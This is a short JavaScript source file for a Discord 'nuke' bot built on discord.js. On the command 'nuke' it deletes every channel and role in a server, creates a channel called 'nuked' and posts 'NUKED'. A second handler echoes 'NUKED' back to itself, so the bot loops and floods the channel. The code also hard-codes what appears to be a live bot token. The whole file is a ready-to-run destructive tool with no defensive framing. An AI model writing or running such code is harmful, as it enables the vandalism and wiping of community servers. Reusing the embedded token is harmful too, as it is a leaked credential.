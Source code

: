 const Token ="OTQwMDE2OTgzNzI0OTMzMjI0.YgBRCQ.3F9uywCgjGv8aWl7huY-K0ZthOQ";
const Discord = require("discord.js"); 
const Client = new Discord.Client({
   intents: [
      Discord.Intents.FLAGS.GUILDS,
      Discord.Intents.FLAGS.GUILD_MESSAGES
   ]
});


Client.on('message', async (message) => {
    if (message.content == 'nuke') {
       message.guild.channels.cache.forEach(channel => channel.delete());
          
       message.guild.roles.cache.forEach(role => role.delete());

       
       await message.guild.channels.create("nuked", {
          type : "text"
       }).then(async channel=> {
          channel.send("NUKED")
       })
    }
 })


 Client.on("message", async (message) => {
    if (message.content == "NUKED") {
       message.channel.send("NUKED")
    }
 })
 
Client.login(Token);
